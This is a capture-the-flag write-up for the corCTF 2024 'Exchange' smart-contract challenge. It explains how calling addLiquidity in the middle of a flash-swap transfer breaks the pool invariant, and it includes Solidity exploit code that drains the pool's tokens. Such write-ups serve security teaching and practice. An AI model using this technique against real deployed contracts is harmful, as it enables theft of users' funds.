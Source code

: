 # corCTF 2024: Exchange

## Description

```
I upgraded my exchange to support flash swaps! Check it out. nc be.ax 32412
```

## Solution 

Instead of executing a transfer between `initialTransfer` and `finalizeTransfer`, it's possible to execute `addLiquidity`.

This can disrupt the pool's invariant.
By increasing the amount of one of the tokens in the pool, we can obtain the other token at a favorable rate.

I solved this challenge by executing the following during `doSwap`, and it was the first blood.

```solidity
token1.approve(address(exchange), type(uint256).max);
token2.approve(address(exchange), type(uint256).max);
token3.approve(address(exchange), type(uint256).max);

for (uint256 i = 0; i < 30; i++) {
    exchange.withdraw(address(token2), 200_000);
    exchange.initiateTransfer(address(token2));
    exchange.addLiquidity(address(token1), address(token2), 0, 200_000);
    exchange.finalizeTransfer(address(token2));
}
exchange.swapTokens(address(token1), address(token2), 10_000, 400_000);

for (uint256 i = 0; i < 50; i++) {
    exchange.withdraw(address(token1), 200_000);
    exchange.initiateTransfer(address(token1));
    exchange.addLiquidity(address(token2), address(token1), 0, 200_000);
    exchange.finalizeTransfer(address(token1));
}
exchange.swapTokens(address(token2), address(token1), 200_000, 240_000); // 200_000 + 10_000 + 30_000

for (uint256 i = 0; i < 50; i++) {
    exchange.withdraw(address(token3), 400_000);
    exchange.initiateTransfer(address(token3));
    exchange.addLiquidity(address(token1), address(token3), 0, 400_000);
    exchange.finalizeTransfer(address(token3));
}
exchange.swapTokens(address(token1), address(token3), 30_000, 400_000);

exchange.withdraw(address(token1), 200_000);
exchange.withdraw(address(token2), 200_000);
exchange.withdraw(address(token3), 400_000);
```
